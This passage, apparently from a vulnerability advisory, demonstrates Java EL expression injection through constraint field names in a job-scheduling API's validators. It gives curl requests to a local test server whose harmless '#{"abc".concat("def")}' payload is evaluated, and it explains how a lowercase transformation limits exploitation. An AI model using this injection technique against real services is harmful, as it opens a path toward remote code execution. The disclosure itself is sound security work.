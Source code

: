 ```
{"statusCode":500,"message":"Unexpected error: HV000149: An exception occurred during message interpolation"}
```
However, a Java EL expression like `'abc'.concat('def')` would not change when converted to lower case and hence remain valid:
```
curl localhost:7001/api/v3/jobs \                                                                                                                                                 master!?
  -X POST -H "Content-type: application/json" -d \
  '{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
      "softConstraints": {"constraints": {"#{\"abc\".concat(\"def\")}":"True"}}
    },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }'
```
The response contains `abcdef` as expected:
```
{"statusCode":400,"message":"Invalid Argument: {Validation failed: 'field: 'container.softConstraints', description: 'Unrecognized constraints [abcdef]', type: 'HARD''}"}
```
I was unable to come up with an all-lowercase Java EL RCE expression (mainly because of Java's naming convention for available functions and classes)

#### SchedulingConstraintSetValidator.java
This validator does not perform the toLowerCase transformation. But unfortunately since the source is same, the Java EL expression gets evaluated in both sinks regardless. So unless the Java EL expression remains valid under toLowerCase transformation, an Exception will be thrown.
Valid Java EL under toLowerCase `#{'abc'.concat('def')`):
```
curl localhost:7001/api/v3/jobs \                                                                                                                                  master!?
  -X POST -H "Content-type: application/json" -d \
  '{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
      "softConstraints": {"constraints": {"#{\"abc\".concat(\"def\")}":"True"}},
      "hardConstraints": {"constraints": {"#{\"abc\".concat(\"def\")}":"True"}}
    },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }'
```
```
```